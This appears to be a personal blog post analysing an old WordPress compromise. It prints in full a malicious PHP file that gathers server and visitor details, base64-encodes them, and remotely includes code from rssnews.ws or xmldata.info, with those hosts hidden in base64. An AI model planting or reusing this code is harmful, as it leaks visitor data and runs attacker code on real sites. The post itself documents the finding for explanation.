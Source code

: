 ```yaml
---
layout: default
title: "An old WordPress hack I found"
date: "Fri Jan 21 14:45:00 -0500 2022"
---
```


I was poking through old WordPress backups I have and noticed a strange
`wp-content/85060.php` file. Turns out one of my sites was backed back in 2006
or 2007 and I had never noticed.

The file looks to be a surveillance script of some sort that sends server
information to another site `rssnews.ws` or `xmldata.info`.

```php
<? error_reporting(0);
$s="e";
$a=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
$b=(isset($_SERVER["SERVER_NAME"]) ? $_SERVER["SERVER_NAME"] : $SERVER_NAME);
$c=(isset($_SERVER["REQUEST_URI"]) ? $_SERVER["REQUEST_URI"] : $REQUEST_URI);
$d=(isset($_SERVER["PHP_SELF"]) ? $_SERVER["PHP_SELF"] : $PHP_SELF);
$e=(isset($_SERVER["QUERY_STRING"]) ? $_SERVER["QUERY_STRING"] : $QUERY_STRING);
$f=(isset($_SERVER["HTTP_REFERER"]) ? $_SERVER["HTTP_REFERER"] : $HTTP_REFERER);
$g=(isset($_SERVER["HTTP_USER_AGENT"]) ? $_SERVER["HTTP_USER_AGENT"] : $HTTP_USER_AGENT);
$h=(isset($_SERVER["REMOTE_ADDR"]) ? $_SERVER["REMOTE_ADDR"] : $REMOTE_ADDR);
$i=(isset($_SERVER["SCRIPT_FILENAME"]) ? $_SERVER["SCRIPT_FILENAME"] : $SCRIPT_FILENAME);
$j=(isset($_SERVER["HTTP_ACCEPT_LANGUAGE"]) ? $_SERVER["HTTP_ACCEPT_LANGUAGE"] : $HTTP_ACCEPT_LANGUAGE);

$str=base64_encode($a).".".
	base64_encode($b).".".
	base64_encode($c).".".
	base64_encode($d).".".
	base64_encode($e).".".
	base64_encode($f).".".
	base64_encode($g).".".
	base64_encode($h).".$s.".
	base64_encode($i).".".
	base64_encode($j);

// base64_decode('d3d3My5yc3NuZXdzLndz") #=> rssnews.ws
if ((include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My5yc3NuZXdzLndz")."/?".$str))) {
} else {
	// base64_decode("aHR0cDovLw==")             #=> http://
	// base64_decode("d3d3My54bWxkYXRhLmluZm8=") #=> www3.xmldata.info
	include(base64_decode("aHR0cDovLw==").base64_decode("d3d3My54bWxkYXRhLmluZm8=")."/?".$str);
} ?>
```

No idea what this would be for, and I didn't see any other malicious files
present. Presumably this was intended to give an attacker a list of vulnerable
sites that they could exploit later.

Fun to find out about a hack 15 years later!
